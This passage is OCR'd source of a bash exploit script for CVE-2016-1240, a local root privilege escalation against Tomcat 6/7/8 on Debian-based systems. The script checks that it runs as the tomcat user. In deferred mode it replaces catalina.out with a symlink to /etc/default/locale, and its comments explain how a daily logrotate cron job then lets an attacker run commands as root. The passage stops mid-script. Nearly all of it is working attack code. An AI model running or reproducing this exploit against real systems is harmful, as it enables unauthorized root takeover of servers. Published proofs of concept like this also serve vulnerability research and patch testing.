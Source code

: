     function ctrl_c() {
            echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
        cleanexit 0
    }

    #intro 
    echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
    echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"

    # Args
    if [ $# -lt 1 ]; then
        echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
        exit 3
    fi
    if [ "$2" = "-deferred" ]; then
        mode="deferred"
    else
        mode="active"
    fi

    # Priv check
    echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
    id | grep -q tomcat
    if [ $? -ne 0 ]; then
        echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
        exit 3
    fi

    # Set target paths
    TOMCATLOG="$1"
    if [ ! -f $TOMCATLOG ]; then
        echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
        exit 3
    fi
    echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"

    # [ Deferred exploitation ]

    # Symlink the log file to /etc/default/locale file which gets executed daily on default
    # tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.
    # Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
    # restarted and file owner gets changed.
    if [ "$mode" = "deferred" ]; then
        rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
        if [ $? -ne 0 ]; then
            echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
            cleanexit 3